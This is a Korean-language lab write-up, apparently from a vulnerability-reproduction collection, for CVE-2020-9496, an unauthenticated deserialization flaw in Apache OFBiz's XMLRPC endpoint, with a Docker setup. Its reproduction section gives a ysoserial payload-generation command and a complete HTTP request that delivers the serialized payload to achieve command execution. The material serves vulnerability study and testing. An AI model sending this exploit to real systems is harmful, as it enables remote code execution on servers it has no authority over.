 # ApacheOfBiz에서 XMLRPC 인자에 대한 안전하지 않은 역직렬화 (CVE-2020-9496)

Apache OFBiz는 오픈 소스 ERP(enterprise resource planning, 전사적 자원 관리) 시스템으로 이는 기업의 많은 비즈니스 프로세스를 통합하고 자동화하는 기업 애플리케이션 제품군을 제공한다.

OfBiz는 `/webtools/control/xmlrpc`에 XMLRPC 엔드포인트를 노출하는데 대게 인증은 서비스별로 적용되므로 이는 인증되지 않은 엔드포인트이다. 하지만, XMLRPC 요청은 인증 전에 처리되기에 이 과정에서 원격 호출로 인한 직렬화된 인자가 역직렬화된다. 따라서 클래스 경로에 원격 코드 실행을 위한 도구로 사용할 수 있는 클래스가 포함되어 있으면, 공격자는 OfBiz 서버에서, OfBiz를 실행하는 서블릿 컨테이너와 동일한 권한을 가지는 등의 임의의 시스템 명령을 실행할 수 있다. 

<용어 정의>
직렬화: 객체들의 데이터를 연속적인 데이터(스트림)로 변형하여 전송 가능한 형태로 만드는 것 \n
역직렬화: 직렬화된 데이터를 다시 객체의 형태로 만드는 것 \n
XMLRPC: XML-RPC란, RPC 프로토콜의 일종으로서, 인코딩 형식에서는 XML을 채택하고, 전송 방식에서는 HTTP 프로토콜을 사용하고 있다.

## 실행 환경 구성

Apache OfBiz (17.12.01)를 실행하기 위해 아래 명령어를 입력하자:

```
docker compose up -d
```
 
잠시 후, 로그인 페이지가 나타나는데 `https://your-ip/myportal/control/main`에서 확인할 수 있다.

## 취약점 재현

CommonsBeanutils1 payload 생성:

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" | base64 | tr -d "\n"
```

![](1.png)

`[base64-payload]`를 교체하고, request 보내기:

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```

![](2.png)

`touch /tmp/success` 컨테이너에서 실행된 것을 확인할 수 있다:

![](3.png)

## 참조:

1. https://securitylab.github.com/advisories/GHSL-2020-069-apache_ofbiz
2. https://github.com/dwisiswant0/CVE-2020-9496
3. https://www.cnblogs.com/ph4nt0mer/p/13576739.html

